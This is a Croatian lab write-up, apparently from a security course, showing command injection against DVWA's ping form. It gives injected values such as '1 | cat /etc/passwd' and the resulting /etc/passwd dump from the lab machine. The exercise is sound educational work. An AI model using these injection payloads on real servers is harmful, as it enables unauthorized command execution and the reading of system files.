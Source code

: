 # Treća laboratorijska vježba: Ranjivosti web aplikacija

Za potrebe ove laboratorijske vježbe, zadan je virtualan stroj za proučavanje ranjivosti web-aplikacija. Za nesmetan rad, na virtualnom stroju nalazi se DVWA (Damn Vulnerable Web Application) čija je svrha pomoći nam bolje razumjeti procese iskorištavanja ranjivosti i osiguravanja web aplikacija.

---

## 1) Izvođenje naredbi (Command Injection)

Ranjivost izvođenja naredbi iskorištavamo u kontekstu forme za ping IP adrese. Korisnika se traži da unese IP adresu u textbox, pa kada se forma preda poslužitelju ono slaže shell naredbu za ping koja se pokreće odmah, a krajnji ispis se vraća korisniku.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
command = "ping -c 4 " + request.ip;
return sh.execute(command);
```

U takvoj implementaciji napadač može ostvariti potpunu kontrolu nad sadržajem naredbe. Moguće je dodati *pipe* koji nakon pinga preusmjerava izvršavanje po želji napadača:

```java
request.ip = "1 | echo srs";  // napadač ubacuje echo srs
```

```sh
$ ping -c 4 1 | echo srs
srs
```

Primijetite da ping naredba ne mora biti valjana kako bi se napadačeva naredba izvršila.

Maliciozan napadač ovim putem može prevariti poslužitelja i dobiti sadržaj datoteke `/etc/passwd` na poslužitelju. Priložen ispis je s našeg virtualnog stroja:

```java
request.ip = "1 | cat /etc/passwd";
```

```sh
$ ping -c 4 1 | cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```
